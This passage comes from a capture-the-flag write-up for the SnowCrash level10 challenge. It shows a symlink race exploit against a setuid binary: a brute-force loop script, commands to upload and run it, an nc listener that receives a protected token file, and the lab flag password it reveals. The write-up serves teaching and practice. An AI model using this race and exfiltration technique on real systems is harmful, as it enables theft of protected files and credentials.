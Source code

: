     while true; do
        /home/user/level10/level10 /tmp/link 192.168.1.14 ;
    done
    ```
    Using the same method as before, we can upload this script in `/tmp` using this command in the shell :
    ```bash
    scp -P 4242 ./level10/ressources/bruteforce.sh  level10@192.168.1.14:/tmp/.
    ```
    We give it execution rights with the command:
    ```bash
    chmod +x /tmp/bruteforce.sh
    ```
    Finally, run the scripts while listening on port 6969, each in a different shell window connected to `level10`:
    - In the shell where we run `linker.sh` :
        ```bash
        cd /tmp
        ./linker.sh
        ```
        Will show:
        ```bash
        MY LINK
        FAKE TOKEN
        MY LINK
        (...)
        ```
    - In the shell where we run `bruteforce.sh` :
        ```bash
        cd /tmp
        ./bruteforce.sh
        ```
        will show:
        ```bash
        Connecting to 192.168.1.14:6969 .. Connected!
        Sending file .. wrote file!
        You don't have access to /tmp/link
        Connecting to 192.168.1.14:6969 .. Connected!
        Sending file .. wrote file!
        You don't have access to /tmp/link
        (...)
        ```
    - On the one listening to port6969:
        ```bash
        nc -lk 6969
        ```
        will show:
        ```bash
        level10@SnowCrash:~$ nc -lk 6969
        .*( )*.
        woupa2yuojeeaaed06riuj63c
        .*( )*.
        Fake token
        .*( )*.
        (...)
        ```
    The password for the user flag10 is : `woupa2yuojeeaaed06riuj63c`
